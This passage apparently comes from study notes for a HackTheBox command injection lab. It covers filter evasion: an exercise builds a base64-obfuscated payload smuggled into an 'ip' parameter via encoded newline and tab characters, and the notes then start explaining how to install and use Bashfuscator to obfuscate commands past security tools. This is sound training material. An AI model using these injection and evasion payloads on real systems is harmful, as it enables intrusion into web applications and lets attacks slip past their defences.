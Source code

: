 Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for more advanced techniques.

Ejercicio
  Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
    echo -n 'f"in"d /usr/share/ | g"re"p root | g"re"p mysql | t"ai"l -n 1' | base64
    ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZiJpbiJkIC91c3Ivc2hhcmUvIHwgZyJyZSJwIHJvb3QgfCBnInJlInAgbXlzcWwgfCB0ImFpImwgLW4gMQ==)


# Evasion Tools

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for Linux and another for Windows.

---

## Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is **Bashfuscator**. We can clone the repository from GitHub and then install its requirements, as follows:

```bash
DJMC@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
DJMC@htb[/htb]$ cd Bashfuscator
DJMC@htb[/htb]$ pip3 install setuptools==65
DJMC@htb[/htb]$ python3 setup.py install --user
```

Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory. There are many flags we can use with the tool to fine-tune our final obfuscated command, as seen in the `-h` help menu:

```bash
DJMC@htb[/htb]$ cd ./bashfuscator/bin/
DJMC@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

### Obfuscating a Command

We can start by providing the command we want to obfuscate with the `-c` flag:

